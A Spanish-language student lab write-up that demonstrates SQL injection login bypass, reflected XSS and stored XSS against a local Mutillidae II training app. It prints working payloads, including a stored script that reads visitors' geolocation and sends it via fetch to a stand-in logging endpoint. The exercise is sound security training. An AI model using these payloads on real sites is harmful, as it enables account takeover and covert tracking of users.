 Actividad clase 2---- Todo esto es con fines educativos!!!!!!!!!!!!!!

La primera prueba consistió en explotar una vulnerabilidad de tipo inyección SQL en el módulo de autenticación. Se accedió a la página de inicio de sesión (login.php) a través del menú principal. Una vez en el formulario, se identificaron dos campos: uno para ingresar el nombre de usuario y otro para la contraseña. En el campo de nombre de usuario se ingresó el siguiente texto: ' OR '1'='1. ![alt text](image.png) En el campo de contraseña se escribió cualquier valor, ya que no iba a ser evaluado por el motor SQL de manera efectiva. Posteriormente se presionó el botón de "Login". La página procesó la solicitud y permitió el ingreso al sistema, demostrando que no existía una validación correcta del contenido ingresado, y que la consulta SQL construida dinámicamente en el backend estaba vulnerable a manipulaciones. Al incluir una condición siempre verdadera como '1'='1', se logró que la cláusula WHERE no filtrara correctamente, otorgando acceso a la cuenta sin verificar credenciales reales. Esta prueba confirmó que el sistema no empleaba consultas preparadas ni sanitización de entradas. ![alt text](image-1.png)

A continuación se realizó una segunda prueba, esta vez orientada a detectar una vulnerabilidad de tipo Cross-Site Scripting reflejado. Para esto se utilizó el módulo de información del navegador, accesible en browser-info.php. Desde esta sección, se aprovechó que la aplicación tomaba los datos enviados por la URL y los mostraba directamente en el cuerpo de la página. Se modificó manualmente la URL del navegador, añadiendo el siguiente parámetro: &UserAgent=<script>alert('Verificacion de prueba')</script>. ![alt text](image-2.png) Una vez cargada la página con la nueva URL, el navegador mostró una ventana emergente con el mensaje “Verificacion de prueba”. Esto demostró que el contenido inyectado en el parámetro fue interpretado como código JavaScript en lugar de ser mostrado como texto plano. No existía ningún tipo de codificación HTML o escape de caracteres en el parámetro “UserAgent”, lo que permitió que el script se ejecutara directamente al ser reflejado en la respuesta HTML. Este tipo de fallo puede ser utilizado por un atacante para ejecutar código malicioso en navegadores de terceros, simplemente con inducir a un usuario a hacer clic en un enlace modificado.

La tercera prueba se enfocó en una vulnerabilidad de tipo XSS persistente. Se utilizó el módulo para añadir entradas al blog personal del usuario, accediendo a add-to-your-blog.php. En esta página se encontraron dos campos principales: uno para el título del post y otro para el contenido de la entrada. En el campo del título se colocó el texto “Mi primer post”, mientras que en el área de contenido se insertó el siguiente script malicioso:

<script>
navigator.geolocation.getCurrentPosition(function(pos) {
  fetch("http://localhost/log.php?lat=" + pos.coords.latitude + "&lon=" + pos.coords.longitude);
});
</script>

![alt text](image-3.png)

Una vez completado el formulario, se presionó el botón de "Save" para guardar la entrada. Luego se accedió a la sección para visualizar las entradas publicadas (view-someones-blog.php). Al cargar la página, el script se ejecutó automáticamente, invocando la función navigator.geolocation.getCurrentPosition. Esto generó una solicitud al usuario para permitir el acceso a su ubicación. En caso de aceptación, el navegador obtuvo las coordenadas geográficas actuales del dispositivo y envió esa información a una dirección de prueba (http://localhost/log.php) utilizando fetch. ![alt text](image-4.png) 

![alt text](image-5.png)

Este comportamiento demostró que los datos almacenados no estaban siendo sanitizados ni filtrados antes de ser insertados en el DOM, lo que permite que código JavaScript persistente se ejecute cada vez que se visualiza el contenido comprometido. A diferencia del XSS reflejado, donde el ataque requiere que la víctima acceda a una URL maliciosa, en el caso de XSS persistente el código queda guardado permanentemente en el servidor. Esto implica que cualquier visitante que acceda a la página con la entrada infectada podría ser afectado sin necesidad de interacción previa.

Esta técnica también ilustra cómo una simple vulnerabilidad puede escalar a una amenaza más grave: con solo otorgar permisos de ubicación, un atacante podría rastrear movimientos, triangular ubicaciones o incluso correlacionar usuarios con patrones geográficos. En este ejemplo, la dirección localhost/log.php se usó como un endpoint ficticio para la prueba en entorno local, pero en un ataque real podría tratarse de un servidor controlado externamente.

Todas las pruebas se realizaron en un entorno local controlado, utilizando un navegador actualizado y una instalación limpia de Mutillidae II sobre un servidor local (XAMPP, WAMP o similar). Estas prácticas permitieron explorar de forma segura tres de las vulnerabilidades más comunes y peligrosas en aplicaciones web, entendiendo cómo se ejecutan y cómo se comportan desde el punto de vista del atacante.